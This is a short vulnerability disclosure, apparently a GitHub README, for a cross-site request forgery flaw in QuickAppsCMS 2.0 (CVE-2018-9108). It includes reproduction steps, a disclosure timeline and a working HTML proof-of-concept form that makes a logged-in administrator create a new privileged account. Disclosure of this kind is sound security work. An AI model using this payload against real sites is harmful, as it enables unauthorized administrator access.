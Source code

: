 # CVE-2018-xxxx

## Summery
this vuln is CSRF vuln that allows to create any kinds of account.

When an attacker induce authorized victims to a malicious webpage and make them send requests. a victim creates an account without their intent.

## Target 
[Quickappscms 2.0](http://www.quickappscms.org/)

## Reproduce
This is a step how to reproduce.
 1. Access to the html page has payload content after you login to admin(/en_US/admin/) page.

Then you find an admin account is created.



## Payloads

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://your.cms.domain.example.com/en_US/admin/user/manage/add" method="POST">
      <input type="hidden" name="&#95;method" value="POST" />
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="email" value="test&#64;example&#46;com" />
      <input type="hidden" name="web" value="" />
      <input type="hidden" name="locale" value="" />
      <input type="hidden" name="status" value="0" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="password" value="testtest" />
      <input type="hidden" name="password2" value="testtest" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;" value="" />
      <input type="hidden" name="roles&#91;&#95;ids&#93;&#91;&#93;" value="1" />
      <input type="hidden" name="welcome&#95;message" value="0" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

## Reference
 - [GitHub IssuePage](https://github.com/quickapps/cms/issues/187)

## Event
 - 2018-03-15 this vulnerability is discovered.
 - 2018-03-27 Open an issue on Github.
 - 2018-03-29 cve-2018-9108 is assigned.

